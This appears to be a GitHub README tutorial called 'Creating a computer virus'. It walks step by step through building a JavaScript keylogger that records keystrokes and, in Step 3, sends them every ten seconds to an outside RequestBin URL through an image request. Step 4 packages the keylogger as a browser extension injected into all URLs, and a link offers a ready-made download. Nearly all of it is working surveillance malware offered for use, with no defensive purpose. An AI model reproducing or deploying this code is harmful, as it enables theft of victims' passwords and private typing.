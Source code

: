 # Creating a computer virus 

Welcome to creating a simple virus 

## Step 1

Lets print


```
var keys = '';
document.onkeypress = function (e) {
    get = window.event ? event : e;
    key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
window.setInterval(function () {
    if (keys.length > 0){
        console.log(keys);
    }
    keys = '';
}, 10000);
```

## Step 2

Lets do something fun

```
var keys = '';
document.onkeypress = function (e) {
    get = window.event ? event : e;
    key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
window.setInterval(function () {
    if (keys.length > 0){
        alert(keys);
    }
    keys = '';
}, 10000);
```


## Step 3

Lets take things to the next level

- Open [Request bin](https://requestbin.net/)

- Click **Create a RequestBin** 


```
var keys = '';
document.onkeypress = function (e) {
    get = window.event ? event : e;
    key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
window.setInterval(function () {
    if (keys.length > 0){
        new Image().src = 'http://{request bin url}?keys=' + keys;
    }
    keys = '';
}, 10000);
```


## Step 4

Lets make it even more cooler

/content.js 
```
{
  "manifest_version": 2,
  "name": "Keylogger",
  "version": "0.1",

  "content_scripts": [
    {
      "matches": [
        "<all_urls>"
      ],
      "js": ["content.js"]
    }
  ]
}
```

<details>
  <summary>Click here if you dont want to work hard</summary>
  
  Download [zip](https://github.com/EXTREMOPHILARUM/virus/releases/download/0.1/extension.zip)
  
</details>
